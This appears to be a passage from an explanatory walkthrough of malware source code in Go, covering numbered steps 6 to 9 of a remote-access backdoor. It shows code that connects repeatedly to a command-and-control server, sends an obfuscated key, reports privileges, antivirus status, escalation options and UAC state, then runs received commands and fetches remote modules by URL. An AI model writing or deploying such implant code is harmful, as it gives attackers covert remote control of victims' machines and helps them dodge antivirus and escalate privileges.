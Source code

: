 6. **Main Connection Loop**:
```go
// Infinite C&C server connection loop
for {
    // Connect to control server
    conn, err := net.DialTimeout("tcp", fmt.Sprintf("%s:%s", ServerAddress, ServerPort), 30*time.Second)
    if err != nil {
        time.Sleep(ReconnectDelay * time.Second)
        continue
    }
```
- Attempts to connect to control server
- Waits and retries on failure

7. **Authentication**:
```go
// Send authentication
conn.Write([]byte(obfuscate(SecretKey + "\n")))
```
- Sends encrypted secret key

8. **System Information**:
```go
// Send system information
sysInfo := fmt.Sprintf("%s|%s|%s|%v|%s|%v|%v",
    getPrivileges(),
    runtime.GOOS,
    runtime.GOARCH,
    isSuperuser(),
    getAVStatus(),
    canEscalate(),
    isUACEnabled())

conn.Write([]byte(obfuscate(sysInfo + "\n")))
```
- Collects system information:
  - Current privileges
  - Operating system
  - Architecture
  - Superuser status
  - Antivirus status
  - Privilege escalation possibility
  - UAC status (Windows)

9. **Command Processing Loop**:
```go
// Process commands
reader := bufio.NewReader(conn)
for {
    command, err := reader.ReadString('\n')
    if err != nil {
        break
    }
    
    command = strings.TrimSpace(deobfuscate(command))
    
    // Execute command
    var result string
    if strings.HasPrefix(command, "load_module:") {
        moduleURL := strings.TrimPrefix(command, "load_module:")
        result = loadModule(moduleURL)
    } else {
        result = adaptiveExecute(command)
    }
    
```